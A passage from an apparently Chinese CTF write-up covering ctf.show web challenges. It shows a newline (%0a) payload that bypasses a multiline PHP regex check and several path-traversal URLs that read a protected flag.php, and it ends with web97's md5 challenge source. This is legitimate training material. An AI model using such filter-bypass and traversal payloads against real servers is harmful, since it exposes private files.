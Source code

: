 `preg_match('/^php$/im', $a)`这部分的i代表大小写，m代表多行匹配

而第二个正则匹配没有m

所以可以用换行符 -->  %0a

即构造payload    `?cmd=%0aphp`   就可绕过

+++

### <font color='orange'>web96</font>

+++

```php
<?php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
?>
```

很明显就是要访问flag.php了

下面介绍三种相似的payload

```
http://18c36440-a34b-404b-927e-62a60676f666.challenge.ctf.show/?u=/var/www/html/flag.php  绝对路径
http://18c36440-a34b-404b-927e-62a60676f666.challenge.ctf.show/?u=./flag.php  当前路径
http://18c36440-a34b-404b-927e-62a60676f666.challenge.ctf.show/?u=../../../.././ctfshow../../../var/www/html/flag.php
前面的随意加，最后面满足是绝对路径就行
```

绝对路径可以看报错信息来得知

+++

### <font color='orange'>web97</font>

+++

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```
